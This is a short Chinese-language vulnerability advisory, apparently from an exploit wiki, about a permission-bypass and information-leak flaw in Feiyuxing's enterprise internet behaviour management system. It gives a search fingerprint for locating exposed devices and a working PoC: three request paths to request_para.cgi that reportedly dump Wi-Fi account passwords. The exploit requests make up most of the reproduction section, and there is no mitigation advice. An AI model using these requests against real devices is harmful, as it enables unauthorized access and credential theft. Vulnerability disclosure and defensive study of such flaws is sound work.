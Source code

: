 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

<a-checkbox checked>飞鱼星 企业级智能上网行为管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="飞鱼星企业级智能上网行为管理系统"</a-checkbox></br>

## 漏洞复现

信息泄露POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![img](/assets/PeiQi-Wiki/img/fy-4.png)